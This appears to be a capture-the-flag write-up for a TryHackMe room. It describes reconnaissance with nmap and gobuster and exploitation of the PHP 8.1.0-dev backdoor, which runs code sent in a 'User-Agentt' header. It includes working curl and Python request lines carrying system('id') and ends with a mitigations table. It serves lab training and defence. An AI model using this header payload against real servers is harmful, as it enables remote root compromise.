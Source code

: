 [PHP Exploit - User-Agentt RCE](https://tryhackme.com/room/agentt)

**Difficulty:** Easy 

**Objective:** Exploit vulnerable PHP version to gain remote code execution and capture the flag.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.X.X  
**Service/Ports:** 80/HTTP  
**Entry Point:** PHP 8.1.0-dev via User-Agentt header  
**Privilege Escalation:** Not required (root shell from exploit)  
**Outcome:** Remote command execution and flag captured

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
### Passive: None  

### Active: Ran Nmap with full version detection.  
Command used: nmap -sS -sV -A -Pn 10.10.X.X  
Result: Port 80 open, running PHP cli server 5.5 or later (PHP 8.1.0-dev)

---

## 4. Enumeration  
- Gobuster, initially showed nothing  
- Explored the website manually; page was static and non-interactive  
- Tried XSS and path traversal payloads — nothing worked  
- Found image URL in GET request: https://source.unsplash.com/Mv9hjnEUHR4/60x60 (stock image, not exploitable)  
- Revisited Nmap scan and focused on PHP version  
- Found public exploit for PHP 8.1.0-dev

---

## 5. Exploitation  
Vulnerability: PHP 8.1.0-dev evaluates the User-Agentt header as PHP code  
Exploit: Exploit-DB 49933  
Technique: Send HTTP request with header User-Agentt: system('id');  
Result: Command executed remotely on the server  
Example request: curl -H "User-Agentt: system('id');" http://10.10.X.X  
Python PoC: requests.get(url, headers={"User-Agentt": "system('id');"})  
Access: Code executed as root

---

## 6. Privilege Escalation  
Not required. Initial code execution was already under root privileges.

---

## 7. Post Exploitation  
Searched for flag with: find / -name "flag*" 2>/dev/null  
Enumerated file system  
No pivoting necessary due to root access

---

## 8. Flags / Proof  

Other Credentials: N/A

---

## 9. Mitigations  
| Vulnerability                     | Risk  | Suggested Mitigation                         |  
|----------------------------------|-------|-----------------------------------------------|  
| PHP 8.1.0-dev code execution     | High  | Do not run development versions in production |  
| Arbitrary header interpretation | High  | Sanitize and validate all HTTP headers         |  
| Lack of privilege separation     | High  | Run web services as limited users             |

---

## 10. Notes  
Time spent: ~30 min

Tools used: nmap, gobuster, curl, Python (requests)  

Lessons learned: Always check the exact version of services; developer versions can introduce dangerous behavior like arbitrary code execution via headers.





















